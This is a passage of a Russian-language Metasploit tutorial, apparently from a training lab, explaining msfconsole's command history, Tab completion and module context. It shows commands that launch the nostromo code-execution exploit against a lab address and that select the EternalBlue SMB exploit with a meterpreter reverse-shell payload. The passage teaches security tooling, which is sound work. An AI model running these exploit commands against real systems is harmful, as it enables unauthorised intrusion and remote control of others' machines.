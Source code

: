 Вы можете использовать команду «История», чтобы просмотреть команды, которые вы вводили ранее.

История команды
```commandline
msf6 > history
1  use exploit/multi/http/nostromo_code_exec
2  set lhost 10.10.16.17
3  set rport 80
4  options
5  set rhosts 10.10.29.187
6  run
7  exit
8  exit -y
9  version
10  use exploit/multi/script/web_delivery
```

Важной функцией msfconsole является поддержка автодополнения по клавише Tab. Это пригодится позже при использовании 
команд Metasploit или работе с модулями. Например, если вы начнете печатать he и нажмете клавишу Tab, вы увидите, 
что текст автоматически завершится в help.  

Msfconsole управляется контекстом; это означает, что если не задать его как глобальную переменную, все настройки 
параметров будут потеряны, если вы измените модуль, который решили использовать. В примере ниже мы использовали 
эксплойт ms17_010_eternalblue и установили такие параметры, как RHOSTS. Если бы мы переключились на другой модуль 
(например, сканер портов), нам пришлось бы снова установить значение RHOSTS, поскольку все внесенные нами изменения 
остались в контексте эксплойта ms17_010_eternalblue.     

Давайте рассмотрим пример ниже, чтобы лучше понять эту функцию. Мы будем использовать эксплойт MS17-010 
«Eternalblue» для иллюстрационных целей. 

После ввода `use exploit/windows/smb/ms17_010_eternalblue` команды вы увидите, что приглашение командной строки 
изменится с msf6 на «msf6 Exploit(windows/smb/ms17_010_eternalblue)». «EternalBlue» — это эксплойт, предположительно 
разработанный Агентством национальной безопасности США (АНБ) для уязвимости, влияющей на сервер SMBv1 во многих 
системах Windows. SMB (Server Message Block) широко используется в сетях Windows для обмена файлами и даже для 
отправки файлов на принтеры. EternalBlue был слит киберпреступной группой «Shadow Brokers» в апреле 2017 года. В мае 
2017 года эта уязвимость была использована по всему миру в атаке с использованием вируса-вымогателя WannaCry.

### Использование эксплойта
```commandline
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
Используемый модуль также можно выбрать с помощью use команды, за которой следует номер в начале строки результатов 
поиска. 
